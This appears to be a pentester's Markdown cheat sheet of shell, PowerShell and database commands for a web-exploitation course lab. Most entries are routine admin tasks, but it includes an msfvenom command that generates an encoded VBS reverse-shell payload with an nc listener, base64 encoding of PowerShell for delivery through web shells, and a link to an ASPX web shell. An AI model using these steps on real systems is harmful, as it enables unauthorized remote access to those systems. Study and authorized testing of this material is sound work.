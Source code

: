 
Press `Ctrl+H` to show/hide hidden files in the file browser!

# Show filesystem hierarchy

```bash
tree -L 3
```

# Find files

Recursive, with file extension:

```bash
find . -print0 -type f -name '*.php'
```

Find and execute a command

```bash
find . -type f -name '.htaccess' -exec cat '{}' ';'
```

Recursive, with regex content match:

```bash
grep -rnw /var/www/html/ATutor -e "^.*user_location.*public.*" --color
```

## Copy files from remote server

Assuming we have SSHFS or a similar mount:

```bash
find . -print0 -type f -name '*.php' -exec cp --parents '{}' /home/kali/Desktop/awae/labs/atmail/app/ ';' 
```

## Remote edit files

```bash
gedit ftp://atutor/var/www/html/ATutor/search.php
```

## SSH File System

Mount a file system using SSHFS:

```bash
sshfs -oKexAlgorithms=+diffie-hellman-group1-sha1 atmail@192.168.137.106 /mnt/atmail
```

Unmount it again using:

```bash
fusermount -u /mnt/atmail
```

## Samba File Share

Start a file share server:
```
sudo impacket-smbserver awae /home/kali/awae
```

## Connect to...

MySQL

```bash
mysql servername -u root -p
```

## Enable logging...

Enable logging in `/etc/mysql/my.cnf`

```ini
general_log = 1
general_log_file = /var/log/mysql/mysql.log
```

Enable logging in `postgresql.conf`.  Restart the server (or process that embeds a PGSQL DB) for the change to take effect.

```ini
log_statement='all'
```

Logs should be going to the `pgsql_log` subfolder.

## Enable debug messages

PHP5

```ini
display_errors = On
```

## Encoding

Convert a file to/from hex:

```sh
xxd file.bin | cut -d " " -f 2-9 | sed 's/ //g' | tr -d '\n'
```

## Web Server

```bash
python -m SimpleHTTPServer 9090
```

## Postfix

Update SMTP transport configuration as needed

```bash
sudo nano /etc/postfix/transport
```
```/etc/postfix/transport
offsec.local smtp:[129.168.121.106]:587
```

```bash
sudo postmap transport
sudo systemctl restart postfix.service
```

## Powershell

Sort directory listings and take most recent

```ps
dir | sort LastWriteTime | Select -last 1
```

Tail a log file and filter output for a certain line pattern

```ps
Get-Content my.log -Wait -Tail 1 | Select-String -Pattern "error" -Context 0,2
```

View running processes

```ps
tasklist | findstr /i calc
```

Create base64 encoded payloads of PS1 scripts to upload via web shells or similar methods where special characters can cause issues:

```sh
iconv -f ASCII -t UTF-16LE powershellcmd.txt | base64 | tr -d "\n"
```
```ps1
powershell.exe -EncodedCommand $Base64Data
```


## VBS

Use `:` as a command separator to run multiple commands on one line.
Use `_` as a continuation character to split a single command over multiple lines.

Run scripts using `cscript.exe myscript.vbs`

## msfvenom

Create TCP reverse shell in VBS:

```
msfvenom -a x86 --platform windows -p windows/reverse_shell_tcp LHOST=127.0.0.1 LPORT=4444 -e x86/shikata_ga_nai -f vbs
```
```
nc -lvp 4444
```

## Web Shells

_When serving web shells from our own server, make sure to set permissions so they aren't executable on our server, and thus that we don't web-shell ourselves!  E.g. `chmod 644`._

[cmdasp.aspx](https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/asp/cmdasp.aspx)

## Terminal

Use OPTION+SHIFT+S to rename our terminal tabs.

## Tokens/Markers

"Using values like “offsec_scope” allows us to have a unique token that we are in control of. This allows us to grep through logs and query in databases if needed. If a value of “test” was used, we might have a lot of false positives if we need to grep for it."